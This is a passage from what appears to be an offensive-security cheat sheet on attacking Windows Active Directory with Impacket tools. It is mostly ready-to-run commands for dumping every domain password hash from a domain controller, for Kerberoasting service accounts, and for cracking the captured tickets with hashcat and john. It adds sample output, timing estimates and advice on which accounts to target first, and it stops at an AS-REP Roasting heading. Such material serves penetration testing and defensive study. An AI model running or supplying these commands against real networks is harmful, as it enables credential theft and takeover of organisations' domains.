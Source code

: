 **Scenario 2: Admin on DC**
```bash
# Dump entire domain
impacket-secretsdump 'CORP/administrator:pass@DC01' -just-dc -outputfile corp-domain

# Files created:
# corp-domain.ntds (all hashes)
# Use these for: Pass-the-Hash, crack offline, golden tickets
```

---

## 3. Kerberos Attacks

### GetUserSPNs.py - Kerberoasting

**When:** You have domain user creds, need to escalate

**What it does:** Request service tickets (TGS) for accounts with SPNs, crack offline

```bash
# Find & request all SPNs
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 'CORP/user:Password123'

# Output:
ServicePrincipalName    Name        MemberOf    PasswordLastSet
MSSQLSvc/SQL01:1433    sqlservice  ...         2020-01-15 10:23:45  ← OLD password!
HTTP/web01             webservice  ...         2024-10-01 14:22:33

$krb5tgs$23$*sqlservice$CORP.LOCAL$MSSQLSvc/SQL01:1433*$abc123...  ← Hash to crack

# Save to file
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 'CORP/user:pass' -outputfile spn-hashes.txt
```

**Crack hashes:**
```bash
hashcat -m 13100 spn-hashes.txt /usr/share/wordlists/rockyou.txt

# Or
john --wordlist=rockyou.txt spn-hashes.txt
```

**Time:**
- Request SPNs: **30 seconds**
- Crack (depends on password): **seconds to hours**
  - Weak password: 1-5 minutes
  - Strong password: May not crack

**Priority:** Focus on accounts with old passwords (PasswordLastSet > 1 year ago)

---

### GetNPUsers.py - AS-REP Roasting
